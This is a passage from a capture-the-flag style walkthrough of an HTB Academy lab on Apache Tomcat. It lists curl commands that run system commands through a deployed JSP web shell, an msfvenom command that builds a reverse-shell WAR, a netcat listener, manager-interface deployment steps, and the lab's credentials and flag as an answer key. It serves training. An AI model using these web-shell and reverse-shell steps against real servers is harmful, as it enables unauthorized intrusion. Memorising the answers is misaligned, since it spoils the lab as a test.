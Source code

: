 #### Step 7: Alternative Web Shell Method (Backup Approach)
```bash
# If reverse shell method fails, use JSP web shell approach:

# Search for tomcat_flag.txt file via web shell
curl "http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=find+/+-name+tomcat_flag.txt+2>/dev/null"

# Check specific webapps directory
curl "http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=ls+-la+/opt/tomcat/apache-tomcat-10.0.10/webapps/"

# Read flag content via web shell
curl "http://web01.inlanefreight.local:8180/backup/cmd.jsp?cmd=cat+/opt/tomcat/apache-tomcat-10.0.10/webapps/tomcat_flag.txt"

# Expected flag output: t0mcat_rc3_ftw!
```

#### Step 8: Post-Exploitation Cleanup (Optional)
```bash
# Remove deployed application for operational security
# 1. Return to http://web01.inlanefreight.local:8180/manager/html
# 2. Locate /backup application in list
# 3. Click "Undeploy" button next to backup application
# 4. Confirm removal

# Verify cleanup
curl "http://web01.inlanefreight.local:8180/backup/cmd.jsp"
# Expected: HTTP 404 Not Found

# Close reverse shell session (if using msfvenom method)
exit
```

### 🎯 HTB Academy Lab Summary

**Complete Lab Methodology:**
1. **VHost Configuration** - Add `10.129.201.58 web01.inlanefreight.local` to `/etc/hosts`
2. **Credential Discovery** - Brute force reveals `tomcat:admin` (lab may use `tomcat:root`)
3. **Reverse Shell Generation** - `msfvenom -p java/jsp_shell_reverse_tcp LHOST=PWNIP LPORT=9001 -f war -o backup.war`
4. **Manager Authentication** - Login to `http://web01.inlanefreight.local:8180/manager/html`
5. **WAR Deployment** - Upload and deploy `backup.war` via manager interface
6. **Listener Setup** - `nc -nvlp 9001` for reverse shell reception
7. **Shell Triggering** - Click deployed application to establish connection
8. **Flag Retrieval** - `cat /opt/tomcat/apache-tomcat-10.0.10/webapps/tomcat_flag.txt`

**Lab Answers:**
- **Username:** `tomcat`
- **Password:** `admin` (brute force) or `root` (lab walkthrough)
- **Flag:** `t0mcat_rc3_ftw!`

---
